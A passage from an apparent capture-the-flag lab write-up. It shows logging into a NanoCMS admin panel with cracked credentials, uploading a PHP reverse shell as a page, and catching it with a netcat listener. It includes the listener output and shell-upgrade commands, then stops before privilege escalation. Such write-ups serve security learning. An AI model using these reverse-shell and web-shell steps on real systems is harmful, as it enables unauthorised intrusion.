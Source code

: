 ![Cracking the hash](https://raw.githubusercontent.com/ctrllevi/ctrllevi.github.io/main/_posts/images/crackstation.png)

### Uploading PHP Shell ###
Using these credentials, we can login to the CMS's panel and modify the webpage. We can do this under the `New Page` section once we logged in at `http://192.168.167.96/~andy/data/nanoadmin.php`. You can copy paste the contents of your favourite php reverse shell (I prefer the pentestmonkey one) and add the page. This will be uploaded to `http://______/~andy/data/pages/shell.php`. Make sure you setup your netcat listener before browsing to the webpage. Once you visited the shell, you will get access to the machine as a low-priviliged user: `apache`, and we can do our general 'shell upgrading' thing:

```
$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.167.42] from (UNKNOWN) [192.168.167.96] 56376
Linux localhost.localdomain 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 i686 i386 GNU/Linux
 06:30:18 up  1:18,  0 users,  load average: 0.11, 0.25, 0.43
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-3.2$ whoami; id
apache
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh-3.2$ python -c 'import pty; pty.spawn("/bin/sh")'
sh-3.2$ export TERM=xterm
export TERM=xterm
sh-3.2$ ^Z[1] + Stopped                    nc -nvlp 1234
$ stty raw -echo; fg
			nc -nvlp 1234

sh-3.2$      
```

Of course when it comes to priv esc, we have automated scripts that do the work for us, but here is the basic manual that we have to follow:
